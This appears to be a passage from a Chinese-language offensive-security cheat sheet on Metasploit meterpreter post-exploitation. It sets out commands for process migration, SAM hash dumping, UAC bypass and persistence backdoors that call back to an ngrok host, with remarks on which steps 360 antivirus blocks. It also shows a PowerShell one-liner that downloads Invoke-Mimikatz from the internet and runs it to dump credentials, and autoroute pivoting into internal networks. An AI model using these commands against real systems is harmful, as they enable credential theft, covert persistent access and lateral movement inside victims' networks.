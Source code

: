       Process List
      ============
       PID   PPID  Name                       Arch  Session  User          Path
      ---   ----  ----                       ----  -------  ----          ----
       12000  676  shell.exe                  x86   2        xxx  C:\Users\xxx\Desktop\shell.exe
       676  1124  explorer.exe               x64   2        xxx  C:\Windows\explorer.exe
      
      meterpreter > migrate 676
      [*] Migrating from 12000 to 676...
      [*] Migration completed successfully.
      ```

      

  12. ##### Msf hash

      1. meterpreter > run hashdump 需要sys权限 导出SAM
      2. meterpreter > run post/windows/gather/smart_hashdump 需要sys权限
      3. getsystem存在uac，用msf bypass，但特征明显 meterpreter > search bypassuac
      4. msf powerdump load mimikatz 不太好用

  13. ##### Msf的持续后门

      Persistence: run persistence -h：用于创建启动项启动，会创建注册表，创建文件。（X86_Linux不支持此脚本） 

      ```
      run persistence -U -i 10 -p 10390 -r free.ngrok.cc 
      会被360拦，-i 10 10秒请求一次   使用powershell执行也被监控而被360拦截
      ```

      meterpreter 的 run getgui -e 命令可以开启成 功。360会提示阻止

      Run metsvc -h ：用于创建服务，会创建meterpreter服务，并上传三个文件，使用-r参数可以卸载服务 ，被拦

  14. ##### Msf powershell

      ```shell
      meterpreter > load powershell
      meterpreter > powershell_shell
      PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');
      Ps > Invoke-Mimikatz -DumpCreds
      ```

  15. ##### Msf Router

      2个或多个路由之间，没有配置相应的路由表，不能访问，获得一台机器shell session 添加路由，使msf可以在当前shell session下以被攻击机访问其他内网主机. 

      ```shell
      meterpreter > run get_local_subnets 
      	[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
      	[!] Example: run post/multi/manage/autoroute OPTION=value [...]
      	Local subnet: 172.17.0.0/255.255.0.0
      meterpreter > run autoroute -s 172.17.0.0/16  添加路由
      meterpreter > run autoroute -p 				  查看路由
      meterpreter > run autoroute -d -s 172.17.0.0/16  删除
      ```
